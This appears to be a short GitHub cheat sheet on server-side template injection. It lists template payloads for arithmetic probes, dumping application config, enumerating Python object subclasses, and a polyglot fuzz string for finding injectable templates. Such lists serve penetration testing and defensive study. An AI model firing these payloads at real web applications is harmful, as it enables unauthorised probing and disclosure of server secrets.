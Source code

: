 # SSTI - Server Side Template Injection

![image](https://github.com/zer00d4y/cheatsheets/assets/128820441/c2588b94-23b3-427f-8117-73e98f478881)


`{{7*7}}`

`{{7*'7'}}`

`{{'7'*7}}`

`{{config.items()}}`

`{{config.from_object(‘os’)}}`

`{{‘’.__class__.__mro__[1].__subclasses__()[284:]}}`

`a{*comment*}b`

`${"z".join("ab")}`

`{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}`

`{{''.class.mro()[1].subclasses()}}`

`{{[].class.base.subclasses()}} `

---------------------------------------------------------------------------------------------------------------------

To identify SSTI vulnerabilities, use a Polyglot payload composed of special characters commonly used in template expressions to fuzz the template.
Polyglot: 
- `${{<%[%'"}}%\.`
